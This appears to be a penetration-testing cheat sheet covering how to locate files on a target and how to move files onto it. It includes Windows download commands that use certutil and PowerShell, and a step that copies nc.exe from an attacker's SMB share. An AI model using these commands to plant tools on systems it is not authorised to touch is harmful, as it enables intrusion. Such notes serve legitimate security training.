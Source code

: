 ### Finding and Locating Files

```bash
# find with file names
$ find . -name user.txt 

# find and execute
$ find . -name '*.txt' -exec cat "{}" \;

# find files with specific string in it
$ find . -type f -print0 | xargs -0 -e grep -niH -e "string"

# find certain file and exclude files from /proc/ and /sys/ directories
$ find / -name Settings.* 2>/dev/null | grep -v '/proc/' | grep -v '/sys/'

# List various available nmap scripts
$ locate scripts/citrix
```

### File Transfers

##### SMB Server

```bash
# start server
$ impacket-smbserver share . -smb2support -user user -password password
```

```powershell
# use server
C:\> net use \\$IP\share /USER:user password
smb> copy \\$IP\share\nc.exe .
```

##### HTTP

```bash
$ python3 -m http.server 80
$ service apache2 start
$ ngrok http 80
```

```powershell
C:\> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$IP/file.exe','C:\Users\user\Desktop\file.exe')"
C:\> iwr -uri http://$IP/file -Outfile file
C:\> wget http://$IP/file -O file
C:\> curl http://$IP/file -o file
C:\> certutil -urlcache -split -f http://$IP:8000/ok.exe ok.exe  
```

```bash
# ways to download file
$ wget http://$IP/file
$ curl http://$IP/file > file
```
